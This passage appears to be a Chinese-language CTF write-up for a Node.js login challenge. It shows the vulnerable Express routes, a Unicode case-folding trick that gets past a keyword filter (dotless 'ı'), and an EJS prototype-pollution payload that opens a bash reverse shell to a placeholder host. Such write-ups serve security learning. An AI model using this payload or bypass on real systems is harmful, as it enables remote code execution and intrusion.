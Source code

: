 ```javascript
   if(safeKeyword(req.body.userid)){
    res.end("<script>alert('forbid word');history.go(-1);</script>") 
   }
    req.session.user={
      'user':req.body.userid.toUpperCase(),
      'passwd': req.body.pwd,
      'isLogin':false
    }
    res.redirect('/'); 
  }
  else if(req.body.Submit=="login"){
    if(!req.session.user){res.end("<script>alert('register first');history.go(-1);</script>")}
    if(req.session.user.user==req.body.userid&&req.body.pwd==req.session.user.passwd){
      req.session.user.isLogin=true;
    }
    else{
      res.end("<script>alert('error passwd');history.go(-1);</script>")
    }
  
  }
  res.redirect('/'); ;
});
router.post('/action', function (req, res) {
  if(req.session.user.user!="ADMIN"){res.end("<script>alert('ADMIN is asked');history.go(-1);</script>")} 
  req.session.user.data = clone(req.body);
  res.end("<script>alert('success');history.go(-1);</script>");  
});
router.get('/info', function (req, res) {
  res.render('index',data={'user':res.outputFunctionName});
})
module.exports = router;
```

很明显是原型链污染, 而且模板引擎是 ejs, 可以配合污染来 rce

keyword 的绕过用到 nodejs 的大小写特性

```javascript
"ı".toUpperCase() == 'I'
```

总的流程就是先注册用户 `admın`, 然后用 `ADMIN` 登录, 再向 `/action` post json 数据, 最后访问 `/info` 进行 rce

payload

```javascript
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxxx/yyyy 0>&1\"');var __tmp2"}}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161915926.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211161915602.png)
